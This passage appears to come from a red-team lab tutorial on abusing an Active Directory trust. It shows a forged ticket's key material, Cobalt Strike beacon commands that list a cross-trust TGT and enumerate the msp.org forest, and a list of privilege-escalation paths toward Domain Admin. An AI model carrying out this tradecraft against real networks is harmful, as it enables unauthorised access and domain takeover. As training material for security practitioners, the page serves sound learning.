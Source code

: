 ```
  KeyType                  :  rc4_hmac
  Base64(key)              :  Uf2X2f65qJYeHow3kfHG2w==
  ASREP (key)              :  F3FC2312D9D1F80B78E67D55D41AD496
```

{% hint style="info" %}
Remember that RC4 tickets are used by default across trusts.
{% endhint %}

**This TGT can now be used to interact with the domain:**

```
beacon> run klist

Current LogonId is 0:0x537833

Cached Tickets: (1)

#0>	Client: CYBER$ @ MSP.ORG
	Server: krbtgt/msp.org @ MSP.ORG
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96

beacon> powershell Get-Domain -Domain msp.org

Forest                  : msp.org
DomainControllers       : {ad.msp.org}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  : 
PdcRoleOwner            : ad.msp.org
RidRoleOwner            : ad.msp.org
InfrastructureRoleOwner : ad.msp.org
Name                    : msp.org
```

This account is obviously not a domain admin, but there are multiple abuse primitives that can be performed across the trust to elevate privileges — including Kerberoasting, ASREPRoasting, RBCD, and vulnerable certificate templates.

{% hint style="info" %}
As a challenge, find a way to get DA in this forest using one of those methods!
{% endhint %}

